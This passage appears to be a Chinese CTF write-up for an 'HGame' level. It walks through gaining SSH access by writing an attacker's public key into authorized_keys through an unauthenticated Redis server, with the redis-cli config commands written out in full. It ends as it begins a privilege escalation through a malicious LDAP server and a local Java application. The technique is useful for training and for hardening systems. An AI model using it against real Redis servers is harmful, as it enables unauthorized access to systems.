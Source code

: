 ![image-20250223215434118](../assets/image-20250223215434118.png)



### Level 257 ⽇落的紫罗兰

题⽬端⼝为ssh服务和redis服务

首先使用 ssh-keygen 生成密钥对

```
ssh-keygen -t rsa
```

![image-20250223215956984](../assets/image-20250223215956984.png)

把生成的公钥添加到 `spaced_key.txt` 文件里

```
(echo -e “\n\n”; cat /root/.ssh/id_rsa.pub; echo -e “\n\n”) > spaced_key.txt
```

利用 Redis 服务写入 SSH 公钥

```
cat spaced_key.txt |redis-cli -h node1.hgame.vidar.club -p 30428 -x set ssh_key
redis-cli -h node1.hgame.vidar.club -p 30428
```

```
redis-cli -h node1.hgame.vidar.club -p 30428
node1.hgame.vidar.club:30428> config set dir /home/mysid/.ssh
OK
node1.hgame.vidar.club:30428> config set dbfilename "authorized_keys"
OK
node1.hgame.vidar.club:30428> save
OK
node1.hgame.vidar.club:30428> exit
```

> user.txt里面有ssh的用户名

连ssh

```
ssh -i /root/.ssh/id_rsa mysid@node1.hgame.vidar.club -p 31266
```

![image-20250223221853478](../assets/image-20250223221853478.png)

要提权

这题用的是上传恶意ldap服务器利⽤本地java应⽤提权

我咋知道本地有Java环境呢？find一下就好

```
find / -name "java" 2>/dev/null
```
